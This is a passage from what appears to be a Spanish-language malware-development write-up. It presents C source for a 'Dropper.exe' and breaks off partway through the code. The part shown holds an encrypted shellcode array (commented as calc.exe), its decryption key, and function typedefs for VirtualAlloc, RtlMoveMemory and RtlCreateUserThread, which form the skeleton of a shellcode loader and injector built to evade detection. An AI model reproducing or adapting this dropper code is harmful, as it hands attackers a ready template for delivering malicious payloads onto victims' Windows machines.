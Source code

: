 ## Dropper.exe

El código fuente asociado a este binario, va a ser el siguiente:

```c
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// calc.exe
unsigned char payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
unsigned int payload_len = sizeof(payload);
unsigned char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID (WINAPI * VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect);
	
typedef VOID (WINAPI * RtlMoveMemory_t)(
	VOID UNALIGNED *Destination, 
	const VOID UNALIGNED *Source, 
	SIZE_T Length);

typedef FARPROC (WINAPI * RtlCreateUserThread_t)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits,
	IN OUT PULONG StackReserved,
	IN OUT PULONG StackCommit,
	IN PVOID StartAddress,
```